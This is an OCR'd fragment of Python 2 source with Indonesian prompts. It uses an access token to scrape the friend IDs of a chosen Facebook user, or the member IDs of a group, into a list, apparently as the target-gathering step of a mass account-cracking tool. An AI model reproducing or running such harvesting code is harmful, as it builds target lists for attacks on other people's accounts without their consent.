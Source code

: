  os.system('clear')
 print logo
 print 42*"\033[1;96m="
 idt = raw_input("\033[1;96m[+] \033[1;93mMasukan ID teman \033[1;91m: \033[1;97m")
 try:
 jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
 op = json.loads(jok.text)
 print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mNama teman\033[1;91m :\033[1;97m "+op["name"]
 except KeyError:
 print"\033[1;96m[!] \x1b[1;91mTeman tidak ditemukan!"
 raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
 super()
 jalan('\033[1;96m[✺] \033[1;93mMengambil ID \033[1;97m...')
 r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
 z = json.loads(r.text)
 for i in z['data']:
 id.append(i['id'])
 elif peak =="3":
 os.system('clear')
 print logo
 print 42*"\033[1;96m="
 idg=raw_input('\033[1;96m[+] \033[1;93mMasukan ID group \033[1;91m:\033[1;97m ')
 try:
 r=requests.get('https://graph.facebook.com/group/?id='+idg+'&access_token='+toket)
 asw=json.loads(r.text)
 print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mNama group \033[1;91m:\033[1;97m "+asw['name']
 except KeyError:
 print"\033[1;96m[!] \x1b[1;91mGroup tidak ditemukan"
 raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
 super()
 jalan('\033[1;96m[✺] \033[1;93mMengambil ID \033[1;97m...')
 re=requests.get('https://graph.facebook.com/'+idg+'/members?fields=name,id&limit=999999999&access_token='+toket)
 s=json.loads(re.text)
 for p in s['data']:
 id.append(p['id'])
 elif peak =="4":
 os.system('clear')
 print logo
 print 42*"\033[1;96m="
 try:
 idlist = raw_input('\x1b[1;96m[+] \x1b[1;93mMasukan nama file  \x1b[1;91m: \x1b[1;97m')
 for line in open(idlist,'r').readlines():
 id.append(line.strip())
 except IOError:
 print '\x1b[1;96m[!] \x1b[1;91mFile tidak ditemukan'
 raw_input('\n\x1b[1;96m[ \x1b[1;97mKembali \x1b[1;96m]')
 super()
 elif peak =="0":
 menu()
 else:
 print "\033[1;96m[!] \x1b[1;91mIsi yang benar"
 pilih_super()
 